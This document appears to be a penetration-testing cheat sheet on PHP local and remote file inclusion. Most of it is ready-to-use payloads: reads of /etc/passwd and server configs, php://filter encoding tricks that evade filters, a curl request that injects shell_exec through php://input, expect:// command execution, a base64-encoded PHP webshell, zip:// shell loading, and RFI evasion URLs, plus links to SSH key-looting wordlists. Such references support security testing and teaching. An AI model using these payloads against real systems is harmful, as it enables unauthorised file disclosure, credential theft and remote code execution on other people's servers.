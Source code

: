 # File Inclusion

## Local File Inclusion (LFI)

### Linux LFI Payloads

```
/etc/passwd
```

Enumerate web server configurations.

```
/etc/apache2/apache2.conf
```

### Windows LFI Payloads

```
/windows/win.ini
```

### LFI Evasion Filters

Retrieve file via base64 encoded.

```
php://filter/convert.base64-encode/resource=/remote/path/to/file

php://filter/convert.iconv.utf-8.utf-16/resource=/remote/path/to/file

$ basenc -d --base64 <<< "<base64_string>"
```

Retrieve file via base64 encoded and zlib deflated.

```
php://filter/zlib.deflate/convert.base64-encode/resource=/remote/path/to/file

$ php -r 'echo gzinflate(base64_decode(file_get_contents("php://stdin")));' <<< "<base64_string>"
```

Retrieve file via ROT13 encoded.

```
php://filter/read=string.rot13/resource=/remote/path/to/file
```

```
curl -X POST --data "<?php echo shell_exec('ls'); ?>" "http://example.com/index.php?page=php://input%00" -v

php://input&cmd=ls
```

```
expect://<os_command>
```

```
$ basenc -w 0 --base64url <<< "<?php system($_GET['cmd']); ?>"
```

```
data:text/plain;base64,<base64_encoded_payload>
```

```
zip://file.jpg%23shell.php
```

## Remote File Inclusion (RFI)

### URL Payloads

```
https://cirt.net/rfiinc.txt
https://rfi.nessus.org/rfi.txt
```

### RFI Evasion

```
HTTps://cirt.net/rfiinc.txt
https://cirt.net/rfiinc.txt?
https://cirt.net/rfiinc.txt??
https://cirt.net/rfiinc.txt?%00
```

---
## References

### Wordlist

- [PinoyWH1Z: SSH-Private-Key-Looting-Wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)

### Hacktricks

- [Hacktricks: PHP - Useful Functions & disable_functions/open_basedir bypass](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)

### PayloadsAllTheThings

- [PayloadsAllTheThings: File Inclusion](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)

### 0xffsec

- [0xffsec: Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)

- [Cobalt: A Pentester's Guide to File Inclusion](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion)

- [Malicious.link: Simple PHP webshell with php filter chains](https://room362.com/posts/2023/simple-php-webshell-with-php-filter-chains/)

- [Certcube: Cheatsheet - LFI & RCE & Webshells](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/)